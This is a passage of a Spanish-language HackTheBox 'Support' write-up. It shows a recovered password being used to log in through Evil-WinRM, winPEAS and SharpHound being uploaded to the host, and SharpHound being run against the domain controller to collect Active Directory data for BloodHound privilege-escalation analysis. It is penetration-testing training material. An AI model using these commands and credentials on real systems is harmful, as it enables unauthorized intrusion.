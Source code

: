 
Tras obtener esta posible contraseña intento conectarme al servidor a través de Evil-WinRM
 
[https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)

```bash
evil-winrm -i dc.support.htb -u support -p 'Ironside47pleasure40Watchful'
```

![](/assets/images/HTB/Support-HackTheBox/evil-winrm1.png)


Ahora ya podemos leer la flag user


# Escalada de Privilegios

Para escalar privilegios primero he de buscar posibles vectores de escalada de privilegios, en mi caso usaré winpeas.sh

Lo subo a la máquina para su posterior ejecución:

``` powershell
*Evil-WinRM* PS C:\Users\support\Documents> upload /home/elc4br4/Descargas/winPEASx64.exe sh.exe
```

Realizaré lo mismo con SharpHound

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> upload /opt/SharpHound/SharpHound.exe SharpHound.exe
```

![](/assets/images/HTB/Support-HackTheBox/evil-winrm2.png)

Ahora ejecutamos los archivos: en mi caso comenzaré con SharpHound


```powershell
*Evil-WinRM* PS C:\Users\support\Documents> ./SharpHound.exe --memcache -c all -d SUPPORT.HTB -DomainController 127.0.0.1
```

Ahora descargamos toda la data que nos crea en el archivo zip para abrirla después con BloodHound.

